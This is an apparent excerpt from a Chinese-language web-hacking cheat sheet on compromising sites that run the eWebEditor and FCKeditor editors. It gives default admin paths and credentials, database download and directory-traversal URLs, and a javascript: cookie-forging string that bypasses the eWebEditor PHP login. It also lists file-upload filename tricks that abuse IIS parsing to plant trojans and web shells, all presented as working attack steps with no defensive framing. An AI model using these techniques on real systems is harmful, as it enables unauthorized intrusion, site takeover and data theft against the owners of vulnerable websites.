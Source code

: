 ( ewebeditor5.5版本 )

默认后台：ewebeditor/admin/login.asp

帐号密码：admin 198625

数据库路径：data/%23sze7xiaohu.mdb

遍历目录：ewebeditor/admin/upload.asp?id=16&d_viewmode=&dir=../

调用样式上传页面：ewebeditor/ewebeditor.htm?id=body&style=popup

( ewebeditor3.8 php版本 )

默认后台：eWebEditor/admin/login.php

首先随便输入一个帐号和密码，接着系统会提示出错，这时清空浏览器的url，然后输入以下代码后连按三次回车键：

javascript:alert(document.cookie=”adminuser=”+escape(”admin”));javascript:alert(document.cookie=”adminpass=”+escape(”admin”));javascript:alert(document.cookie=”admindj=”+escape(”1”));

接着访问文件：ewebeditor/admin/default.php 就可以直接进入后台了。

( ewebeditor编辑器exp手册 )

有时候什么后缀都上传了，还是不行。就增加一个asp:jpg格式 上传asp:jpg 试试

一：文件上传成功了，但是访问不成功，说明该目录(比如：/UploadFile)被设置了权限，返回去换成/ 上传到根目录就行了.增加asp等不行的时候，可以利用解析asp;jpg

二：下载数据库查看前人留下的痕迹，再访问上传页面拿shell。

页面路径：/ewebeditor.asp?id=48&style=popu7 用工具浏览数据库找到已添加asp|asa|cer|php的栏目，把S_ID跟S_Name的值替换在语句里访问，上传相对应的格式木马。
 
 
0x06 fckeditor编辑器
 
查看版本：fckeditor/editor/dialog/fck_about.html

编辑器页面：FCKeditor/_samples/default.html

上传页面：fckeditor/editor/filemanager/connectors/test.html

遍历目录：
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/

编辑页面：
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp

查看文件上传路径：
fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=

( 拿shell方法总结 )

ASPX的站几乎都用fck编辑器，建议用工具扫一下，记住inc目录下可能存在fck编辑器，扫下这个目录。

一：如果是iis6.0，上传两次 1.asp;.jpg 或者1.asp;1.jpg 或者创建x.asp目录，再在这个目录下上传x.jpg 或者直接上传1.asp;jpg 都可以完美解析拿下shell

二：第一次上传1.asp;1.jpg，被重命名为：1_asp;1.jpg，但是第二次上传1.asp;1.jpg，就有可能变成：1.asp;1(1).jpg

三：iis7.5+fck的解析文件为：a.aspx.a;.a.aspx.jpg..jpg.aspx
